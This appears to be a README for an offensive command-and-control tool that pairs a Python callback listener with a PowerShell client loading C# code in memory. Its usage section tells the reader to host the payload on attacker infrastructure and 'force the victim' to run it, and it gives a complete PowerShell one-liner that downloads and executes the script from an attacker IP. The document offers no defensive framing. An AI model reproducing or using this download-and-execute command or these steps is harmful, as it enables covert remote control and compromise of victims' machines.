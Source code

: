 # Reverse-C2-Channel
This repo contains custom C2 channel, built with Powershell + C# + Python

# C2 Parts
listener.py is designed for callback handler and server application.
client.ps1 is powershell script which is loading pure C# callback code. The idea is abusing the powershell's ability to arbitrary load and run C# code directly in memory.

# How to use:
1. Open client.ps1 with any text editor and modify your IP / Port
2. Host both listener.py and client.ps1 to the attacker's box or C2 infrastructure server
3. Force the victim to remotely run and execute the powershell script in memory (for example: powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.126.128/client.ps1')")